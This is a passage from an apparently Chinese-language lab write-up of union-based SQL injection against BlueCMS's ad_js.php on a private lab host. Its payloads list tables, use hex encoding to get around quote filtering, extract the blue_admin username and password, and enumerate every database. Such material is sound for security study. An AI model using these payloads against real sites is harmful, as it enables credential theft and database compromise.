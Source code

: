   ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=-3%20union%20all%20select%201,2,3,4,5,6,(select%20group_concat(TABLE_NAME)%20from%20information_schema.tables%20where%20TABLE_SCHEMA%20=%20database())
  ```
  ![Alt text](image-12.png)
  - 以此类推，注出字段名和数据
  - 除了上述使用构造sql语句的方式避开单引号限制外，也可以使用16进制编码来避开单引号，实现对字符串的查询
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=-3 union all select 1,2,3,4,5,6,(select group_concat(TABLE_NAME) from information_schema.tables where TABLE_SCHEMA = 0x6d7973716c)
  ```
  - 字段名
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=-3 union all select 1,2,3,4,5,6,(select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME = 0x626c75655f61646d696e)
  ```
  ![Alt text](image-13.png)
  - 具体数据
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=-3 union all select 1,2,3,4,5,6,(select concat(admin_name,pwd) from blue_admin limit 0,1)
  ```
  ![Alt text](image-14.png)
  - 查询当前共有哪些数据库，实现跨库
  ```
  view-source:http://192.168.98.139/bluecms/uploads/ad_js.php?ad_id=-3 union all select 1,2,3,4,5,6,(select  group_concat(schema_name) from information_schema.schemata)
  ```
  ![Alt text](image-19.png)
  - 共4个数据库
  - 借此可以查询所有数据库
  - 其他数据库数据同理可得...
